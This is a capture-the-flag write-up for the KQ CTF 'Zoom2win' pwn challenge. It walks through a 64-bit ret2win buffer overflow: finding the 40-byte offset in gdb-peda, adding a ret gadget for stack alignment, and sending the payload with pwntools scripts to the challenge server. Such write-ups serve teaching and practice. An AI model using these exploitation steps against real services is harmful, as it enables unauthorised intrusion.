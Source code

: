 ```yaml
---
title: "KQ CTF - Zoom2win [ PWN ]"
date: 2022-02-27T18:29:07-05:00
draft: false
---
```


## __Introduction__

Let's start this challenge by looking at its description, and see what the author has to tell us about it.

![image](https://user-images.githubusercontent.com/88755387/139706301-4ac66425-bb4a-4dd8-8350-f01fe7d00cd2.png)


Okay, so we already know that this is a basic ret2win. Let's not waste any more time and start developing the script.

## __First steps__

Let's see what type of architecture it has because depending on whether it is x64 or x86_64 there are several modifications to be made in the final code.

![image](https://user-images.githubusercontent.com/88755387/139694975-1f9fcd31-b10f-43ff-807a-0fb33785d6eb.png)

Once we know that it is 64-bit let's run it and see what it's all about:

![image](https://user-images.githubusercontent.com/88755387/139695501-85b03a64-1ed4-4959-afe8-97adec7284fb.png)

We can see that when entering many characters, the binary breaks, so we are going to look for its offset in order to overwrite the EIP with the address needed to read the flag.

Before we continue with the offset search let's take a look at its protections to see what we have to deal with.

![image](https://user-images.githubusercontent.com/88755387/139698443-229e41ab-6627-4b29-b3bf-3e645e7d566a.png)

In this case, we see that we only have the NX enabled. This protection marks the stack as non-executable so that even if we can overwrite the EIP to point to our shell code the shell code will never execute. 

The return-to-libc attack circumvents this protection by overwriting the return address, not with an address pointing to our injected shell code but rather to a libc function call address.

## __Offset__

We are going to find the offset using gdb-peda which is a well known debugger in the Pwn world.

```bash
gdb-peda zoom2win
gdb-peda$ pattern create 60
gdb-peda$ r # run te program

[ Enter the created pattern ]

gdb-peda$ pattern offset AA0A # First characters of RSP register
# AA0A found at offset: 40
```

Once we know the offset we will find the function where the flag is located.

## __Flag address__

To find this address we will enter the `info functions` command inside the debugger:

![image](https://user-images.githubusercontent.com/88755387/139700183-0c59bd7e-2e78-4d9f-9841-7ebbc112379f.png)

## __Code development__

Once we have everything ready we are going to develop the script that will launch the flag. For them we will rely on the PwnTools library which will help us to make the operation much easier.

You can download PwnTools by clicking on the following [link](https://github.com/Gallopsled/pwntools).

```python
#!/usr/bin/python3
from pwn import *

s = remote('143.198.184.186', 5003)
# elf = ELF('./zoom2win')
# s = process(elf.path)

payload = b'A'*40
payload += p64(0x401196) # address to flag() function

s.sendline(payload)
s.interactive()
```

![image](https://user-images.githubusercontent.com/88755387/139702489-7c6eb174-3c36-4030-ba5d-506f4268cc5f.png)

This code won't work because we are dealing with a 64-bit binary and we need a return address. We need to jump to this ret address before jumping to the flag function to align the stack, which has to be a multiple of 16.

To find this address we will launch the following command and filter by the word `ret`.

```
ROPgadget --binary ./zoom2win --ropchain | grep ret
```

![image](https://user-images.githubusercontent.com/88755387/139703027-f829df79-6903-4fde-a7ed-653d3a992f63.png)

Once we have it we are going to add it to our code so that it returns the content of the flag.txt.

## __Final code__

```python
#!/usr/bin/python3
from pwn import *

s = remote('143.198.184.186', 5003)

payload = b'A'*40
payload += p64(0x40101a) # ROPgadget --binary ./zoom2win --ropchain
payload += p64(0x401196) # address to flag() function

s.sendline(payload)
s.interactive()
```

![image](https://user-images.githubusercontent.com/88755387/139703774-42574e3b-d233-4efc-9bfe-5b083c53849e.png)

That's what we were looking for :)

We can improve this code so that it only launches the flag without entering interactive mode. It can probably be improved in a thousand different ways, but I think this is good enough for this occasion.

```python
#!/usr/bin/python3
from pwn import *

s = remote('143.198.184.186', 5003)

payload = b'A'*40
payload += p64(0x40101a) # ROPgadget --binary ./zoom2win --ropchain
payload += p64(0x401196) # address to flag() function

s.sendline(payload) 
response = s.recvall()
print(response.decode())

print(re.search("(kqctf{.*?})",response.decode()))
```

![image](https://user-images.githubusercontent.com/88755387/139704228-3c968c21-d0cc-47db-9e45-e4ba43dca2e1.png)

I hope you liked! :D